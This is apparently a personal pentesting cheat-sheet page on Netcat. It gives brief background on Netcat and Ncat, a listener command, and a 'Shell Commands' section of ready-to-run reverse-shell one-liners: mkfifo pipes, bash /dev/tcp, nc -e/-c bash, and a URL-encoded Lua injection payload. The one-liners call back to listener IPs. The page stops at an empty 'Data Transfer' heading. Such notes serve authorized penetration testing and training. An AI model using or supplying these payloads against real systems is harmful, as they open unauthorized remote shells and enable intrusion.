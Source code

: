```yaml
---
tags:
  - Exploitation
  - ObtainingRemoteShells
  - Tooling
---
```

Netcat is a versatile networking tool that is often referred to as the "Swiss Army knife" of networking. It can be used for a wide range of tasks, such as port scanning, transferring files, and creating backdoors. Netcat operates by establishing connections between two computers over a network and can work with both TCP and UDP protocols.

The original Netcat was [released](http://seclists.org/bugtraq/1995/Oct/0028.html) by Hobbit in 1995, but it hasn't been maintained despite its popularity. The flexibility and usefulness of this tool prompted the Nmap Project to produce [Ncat](https://nmap.org/ncat/), a modern reimplementation that supports SSL, IPv6, SOCKS and HTTP proxies, connection brokering, and more.
# Guide

1. Windows version, see [[Powercat]]
## Creating Listeners

1. **Ensure** you are listening on a port the victim also has open

```
nc -nvlp <PORT> 
```

## Shell Commands 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.102.113 443 >/tmp/f
```

```
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

```
os.execute(%27nc%2010.10.14.133%204444%20-e%20/bin/bash%27)%20--
```

```
nc -c bash xxx xxx
```

```
mkfifo /tmp/grpoa; nc 192.168.56.1 1337 0</tmp/grpoa | /bin/sh >/tmp/grpoa 2>&1; rm /tmp/grpoa
```

## Data Transfer